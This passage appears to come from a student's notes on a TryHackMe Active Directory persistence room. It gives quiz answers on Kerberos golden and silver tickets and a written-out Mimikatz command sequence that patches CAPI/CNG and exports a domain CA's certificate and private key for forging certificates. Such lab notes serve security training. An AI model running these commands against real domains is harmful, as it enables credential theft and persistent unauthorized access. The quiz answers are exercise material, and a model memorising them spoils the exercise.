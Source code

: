 ```markdown
1. Which AD account's NTLM hash is used to sign Kerberos tickets? - krbtgt

2. What is the name of a ticket that impersonates a legitimate TGT? - Golden Ticket

3. What is the name of a ticket that impersonates a legitimate TGS? - Silver Ticker

4. What is the default lifetime (in years) of a golden ticket generated by Mimikatz? - 10
```

## Persistence through Certificates

* We need a valid certificate that can be used for Client Authentication, and in this way we can use the certificate to request a TGT regardless of password rotations; we can also use the private key of the root CA (Certificate Authority) certificate to generate our own certificates.

* Private key of CA is stored on CA server; if the key is not protect through hardware-based methods such as HSM (Hardware Security Module), then it is protected by machine DPAPI (Data Protection API) - this means we can use tools like ```mimikatz```.

* Extract private key:

```shell
ssh za\\Administrator@thmwrk1.za.tryhackme.loc

mkdir sv

cd sv
#create directory for our user

C:\Tools\mimikatz_trunk\x64\mimikatz.exe

#in mimikatz
crypto::certificates /systemstore:local_machine
#view certificates stored on DC
#some certs are set not to allow to export key

#patch memory in mimikatz
privilege::debug

crypto::capi

crypto::cng
#services patched

#export certs
crypto::certificates /systemstore:local_machine /export

exit

dir
#certs stored in both pfx and der format
#za-thmdc-ca.pfx cert is of interest
#cert encrypted with password 'mimikatz'

#we can copy this cert to attacker machine and low-priv user home directory
```
